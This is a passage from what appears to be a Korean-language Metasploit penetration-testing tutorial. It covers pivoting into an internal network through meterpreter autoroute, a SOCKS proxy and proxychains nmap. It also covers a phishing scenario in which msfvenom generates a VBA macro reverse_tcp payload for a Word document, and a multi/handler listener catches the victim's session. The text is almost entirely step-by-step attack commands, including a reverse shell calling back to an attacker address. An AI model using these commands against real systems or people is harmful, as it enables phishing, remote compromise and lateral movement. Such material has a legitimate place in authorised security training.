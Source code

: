 #### 4단계: 내부 네트워크 침투

```bash
# 네트워크 정보 수집
meterpreter > ifconfig
meterpreter > route

# 피벗팅 설정
meterpreter > run autoroute -s 10.0.0.0/24
meterpreter > background

# SOCKS 프록시 설정
msf6 > use auxiliary/server/socks_proxy
msf6 auxiliary(server/socks_proxy) > run -j

# 내부 네트워크 스캔
proxychains nmap -sT 10.0.0.1-50 -p 22,80,443,3389
```

## 시나리오 3: 피싱 이메일을 통한 클라이언트 사이드 공격

### 상황: Office 매크로 기반 공격

#### 1단계: 악성 문서 생성

```bash
# VBA 매크로 페이로드 생성
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.50 LPORT=4444 -f vba

# 생성된 VBA 코드를 Word 문서에 삽입
# 사회공학적 내용과 함께 첨부파일 생성
```

#### 2단계: 리스너 설정

```bash
# 멀티핸들러 설정
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 192.168.1.50
msf6 exploit(multi/handler) > set LPORT 4444
msf6 exploit(multi/handler) > exploit -j -z
```

#### 3단계: 희생자가 문서 실행시 세션 획득

```bash
# 세션 확인
msf6 > sessions

# Meterpreter 세션 접속
msf6 > sessions -i 1

# 기본 정보 수집
meterpreter > sysinfo
meterpreter > getuid
```
